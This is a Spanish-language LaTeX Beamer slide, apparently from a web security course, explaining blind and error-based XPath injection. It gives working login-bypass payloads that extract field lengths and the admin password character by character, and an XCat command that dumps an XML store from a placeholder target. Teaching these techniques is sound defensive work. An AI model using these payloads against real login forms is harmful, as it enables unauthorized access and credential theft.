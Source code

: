 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XPath Injection --- Blind y extracción de datos}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Blind XPath Injection
  \item La app no muestra el resultado pero su comportamiento varía (login OK vs error).
  \item $\rightarrow$ Explotar igual que Blind SQL Injection: preguntas booleanas
  \item Extracción de la longitud de un campo
  \item \cmd{\# ¿El nombre del primer usuario tiene 5 caracteres?}
  \item ' or string-length(//user[1]/name/text())=5 or 'a'='b
  \item $\rightarrow$ Si el login es exitoso, la longitud es 5
  \item Extracción carácter a carácter con substring()
  \item \cmd{\# ¿El primer carácter de la contraseña del admin es 'a'?}
  \item ' or substring(//user[name='admin']/password,1,1)='a' or 'x'='y
  \item $\rightarrow$ Iterar con Burp Intruder (Cluster Bomb): posición x carácter
  \item Error-based XPath
  \item \cmd{\# Algunos servidores filtran el error en la respuesta:}
  \item ' / 'a
  \item $\rightarrow$ Error de parseo revelado: confirma XPath Injection y posible info
  \item XCat --- Extracción automática
  \item pip install xcat
  \item xcat run --method POST --url https://victima.com/login
  \item --true-string 'Welcome' --false-string 'Invalid'
  \item --username 'INJECT' --password 'INJECT'
  \item $\rightarrow$ Extrae automáticamente todo el documento XML árbol por árbol
  \item github.com/orf/xcat
  \end{itemize}
\end{frame}
\end{document}
